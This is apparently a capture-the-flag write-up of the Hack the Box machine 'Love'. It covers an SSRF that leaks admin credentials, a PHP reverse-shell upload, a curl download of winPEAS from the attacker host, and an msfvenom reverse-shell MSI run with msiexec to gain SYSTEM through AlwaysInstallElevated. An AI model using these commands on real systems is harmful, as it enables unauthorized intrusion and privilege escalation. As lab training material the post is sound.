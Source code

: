 +++
author = "Nick"
categories = ["hack the box", "easy", "windows", "reverse shell", "AlwaysInstallElevated", "msfvenom"]
date = 2021-08-07T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/05/love.png"
slug = "hack-the-box-love"
summary = "Welcome back! Today we are going to be doing the Hack the Box machine - Love. This is listed as an Easy Windows machine. Let's jump in.\n"
tags = ["hack the box", "easy", "windows", "reverse shell", "AlwaysInstallElevated", "msfvenom"]
title = "Hack the Box - Love"

+++


Welcome back! Today we are going to be doing the Hack the Box machine - Love. This is listed as an Easy Windows machine. Let's jump in.

As always, we kick it off with `nmap`.

Here are our results:
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL, X11Probe: 
|_    Host '10.10.14.125' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-05-18T18:25:43+00:00; +32m45s from scanner time.
| tls-alpn: 
|_  http/1.1
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=5/18%Time=60A3FE4D%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.125'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,4B
SF:,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.125'\x20is\x20not\x20allowed\x
SF:20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h17m46s, deviation: 3h30m02s, median: 32m44s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-18T11:25:33-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-18T18:25:30
|_  start_date: N/A
```

One of the first things we see is the DNS name given as `love.htb` and `staging.love.htb`. So we'll add this to our hosts list. Next we'll head over to see what's being hosted on port 80. We see a voting system. Next we check port 5000, nothing, it's forbidden. Next up is port 5040, nothing, it just times out. We check out `love.htb` on port 443, also forbidden. Now we'll head over to see what's being hosted on `staging.love.htb`.

When we land on this virtual host, we see a file scanning service. WE even have the option to demo the software. The page is asking for a URL to scan. So we setup a `netcat` listener on our local machine and point it to that URL.

![](/images/2021/05/image-35.png)

Interesting. So, to test this further, we can create a file and see what happens when the URL is a file. We simple create a file with touch, populate it with junk data and host it. We then use the demo to read the file and get whatever it might tell us about the file.

Commands:
`touch 1.lst`
`echo 'hi' > 1.lst`
`simple` (This is an alias'd to `SimpleHTTPServer` for me)

![](/images/2021/05/love_test.gif)

So we know that it will read the contents of whatever the item we supply is. So my thought here is to let this demo read the pages that were forbidden to us earlier. If the server is trying to query itself, it's likley we won't get forbidden. Port 443 didn't yield anything, however port 5000 did!

![](/images/2021/05/image-36.png)

Awesome, we have some credentials `admin`:`@LoveIsInTheAir!!!!`. Now we need to identify where we can use them. They don't work in the standard entry form. To dig a bit more we'll use `gobuster` to help enumerate more.

Command:
`gobuster dir -u http://love.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We find an `admin` directory.

![](/images/2021/05/image-37.png)

Awesome, the credentials work on this interface! Once we're in the admin portal, we look around for additional ways to pivot. After looking around, it seems like uploading a shell as a user profile picture could be a valid method. There are many `php shells` out there, pick one you [like](https://github.com/pentestmonkey/php-reverse-shell).

![](/images/2021/05/love_shell.gif)

We setup our listen and catch a connection back immediately. We then navigate to `Phoebe`'s Desktop and snag the `user.txt` flag! Awesome, now it's time to start enumerating so we can find a path forward. We'll spin up a `SimpleHTTPServer` and transfer over `winPEAS`. A quick check shows we have `curl` on the system, we'll use that to get our file.

Command:
`curl http://10.10.14.125/winPEAS.bat -o wp.bat`

![](/images/2021/05/image-39.png)

That takes quite a while to run, but after sifting through the results, it looks like we can use `AlwaysInstallElevated` to [escalate](https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path).

First we'll generate a payload via `msfvenom`.

Command:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.125 LPORT=6969 -f msi -o rootme.msi`

Once that is generated, we can host it via `SimpleHTTPServer` and download it onto the target. Once its on the system, we run the following command.

Command:
`msiexec /quiet /qn /i C:\Users\Phoebe\Downloads\rm.msi`

![](/images/2021/05/image-38.png)

We catch a shell back as `system`! Let's get the `root.txt` flag and we have completed the box!



